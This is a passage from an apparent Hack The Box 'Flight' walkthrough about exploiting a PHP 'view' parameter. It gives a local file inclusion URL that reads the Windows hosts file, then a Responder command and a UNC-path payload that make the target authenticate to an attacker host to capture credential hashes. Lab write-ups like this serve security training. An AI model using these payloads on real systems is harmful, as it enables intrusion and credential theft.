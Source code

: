 ![screenshot](/assets/images/flight7.png)

Replace `\` with `/`

```sh
# modified payload
http://school.flight.htb/index.php?view=C:/Windows/System32/drivers/etc/hosts
```

![screenshot](/assets/images/flight8.png)

### Combine LFI with RFI

```sh
# start Responder
sudo responder -I tun0 -v

# Pass RFI payload to LFI vulnerable parameter 
http://school.flight.htb/index.php?view=//10.10.14.59/htb
```

![screenshot](/assets/images/flight9.png)
